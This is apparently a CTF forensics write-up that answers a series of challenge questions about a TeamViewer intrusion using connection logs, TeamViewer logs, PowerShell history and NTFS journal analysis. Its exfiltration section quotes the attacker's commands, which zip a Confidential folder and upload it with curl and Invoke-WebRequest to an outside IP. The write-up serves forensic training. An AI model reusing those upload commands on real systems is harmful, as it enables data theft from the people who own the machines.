







> # TeamViewer Forensics

## Summary
- [Summary](#summary)
  - [What is the intruder’s username?](#what-is-the-intruders-username)
  - [What is the “user ID” associated with the intruder's username?](#what-is-the-user-id-associated-with-the-intruders-username)
  - [The attacker has joined more than one time. When did the intruder first access the victim's machine?](#the-attacker-has-joined-more-than-one-time-when-did-the-intruder-first-access-the-victims-machine)
  - [What is the “session ID” of the intruder's second access to the computer?](#what-is-the-session-id-of-the-intruders-second-access-to-the-computer)
  - [What was the duration of the second session in seconds.milliseconds?](#what-was-the-duration-of-the-second-session-in-secondsmilliseconds)
  - [What is the IP address of the server to which the intruder exfiltrated data?](#what-is-the-ip-address-of-the-server-to-which-the-intruder-exfiltrated-data)
  - [How many files did the intruder exfiltrate?](#how-many-files-did-the-intruder-exfiltrate)
  - [When did the intruder delete the confidential data from the system?](#when-did-the-intruder-delete-the-confidential-data-from-the-system)

### What is the intruder’s username?
Analysis the file `C\Program Files\TeamViewer\Connections_incoming.txt`, you will see the incoming log on this machine.<br>
```
565955529	a1l4m	04-07-2024 04:34:16	04-07-2024 04:34:56	mmox	RemoteControl	{6460e19e-cffe-46d9-9fa6-1803f93f15f4}	
565955529	a1l4m	04-07-2024 04:35:03	04-07-2024 04:45:11	mmox	RemoteControl	{0d0d8937-8f4a-4597-9348-3aea91681992}	
```
**Answer:** a1l4m

### What is the “user ID” associated with the intruder's username?
**Answer:** 565955529

### The attacker has joined more than one time. When did the intruder first access the victim's machine?
Follow the file `C\Program Files\TeamViewer\TeamViewer15_Logfile.log`, search for the id `565955529` to find the first connection time.<br>
<br>
**Answer:** 2024-07-04 04:34:16.699

### What is the “session ID” of the intruder's second access to the computer?
Search the string `incoming remote control in sessions`.<br>
<br>
**Answer:** 536169703

### What was the duration of the second session in seconds.milliseconds? 
The keyword for ending a remote connection is `VoIP: Receiver: Removed session`, find the string with ID `536169703`. Then calculate the different.<br>
<br>
**Answer:** 607.571

### What is the IP address of the server to which the intruder exfiltrated data?
Follow the Powershell log in `D:\CTF\LetsDefend\C\Users\mmox\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`.<br>
```powershell
Compress-Archive -Path .\Confidential\ -DestinationPath output.zip
ls
curl
curl 116.203.186.178 -T .\output.zip
Invoke-WebRequest -Uri http://116.203.186.178 -Method Put -InFile .\output.zip -ContentType "application/zip"
./kape.exe --tsource C:\ --tdest 'C:\\Users\\mmox\\Downloads' --target KapeTriage --zip Finale
```
The intruder zip the folder `Confidential` then upload to server `116.203.186.178`.<br>
**Answer:** 116.203.186.178

### How many files did the intruder exfiltrate?
The intruder archive the folder `Confidential` to `output.zip`, but the folder is not appear in challenge file. So I will use `$Extend\$J` and `$MFT` with tool [MFTECmd](https://download.ericzimmermanstools.com/MFTECmd.zip) and [TimeLine Explorer](https://download.ericzimmermanstools.com/net6/TimelineExplorer.zip) to view the result.<br>
<br>
First, I search for the string `Confidential` but there are many row to find.<br>
<br>
The `Confidential` is a subfolder of `C:\Users\mmox\Documents`, so I filter with `Parent Entry Number` = 35740 and `Update Reasons` = FileCreate.<br>
<br>
**Answer:** 3

### When did the intruder delete the confidential data from the system?
Change `Update Reasons` to FileDelete, the intruder delete file named `Secret.txt`.<br>
<br>
**Answer:** 2024-07-04 04:42:09
